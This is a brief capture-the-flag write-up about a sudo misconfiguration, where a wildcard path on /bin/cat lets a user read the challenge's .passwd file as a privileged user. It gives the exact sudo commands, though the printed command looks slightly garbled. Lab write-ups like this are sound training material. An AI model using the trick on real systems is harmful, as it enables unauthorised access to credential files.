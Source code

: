 ## sudo - weak configuration


**Vulnerability** : sudo permission for /bin/cat & wildcard in file path --> read permission for every file in the system with the privilege of the dedicated user
**Objective** : Concatenating the file path for .passwd after a normal one since the wildcard expropriates space characters

1. Check permission using `sudo -l`
2. Read the password file by typing the command `sudo -u app-script-ch1-cracked /challenge/app-script/ch1/ch1/shared_notes ./ch1cracked/.passwd`